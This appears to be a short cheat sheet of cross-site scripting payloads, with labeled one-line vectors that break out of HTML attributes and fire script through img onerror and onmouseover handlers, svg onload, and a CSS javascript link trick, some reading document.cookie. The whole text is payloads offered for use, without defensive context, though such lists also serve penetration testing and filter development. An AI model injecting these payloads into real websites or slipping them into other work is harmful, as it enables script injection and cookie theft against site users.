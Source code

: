 
break out - img src - onerror:
```
"><img src="x" onerror="prompt(cookie)">
```

break out - img src - onmouseover:
```
"><img src="x" onmouseover="alert(document.domain)">
```

image src - onerror:
```
<image src=x onerror=alert(1)>
```

img src - onerror (no quotes):
```
<img src=x onerror=alert(5)>
```

CSS - javascript - alert:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```

svg - onload:
```
<svg/onload=alert(document.cookie)>
```

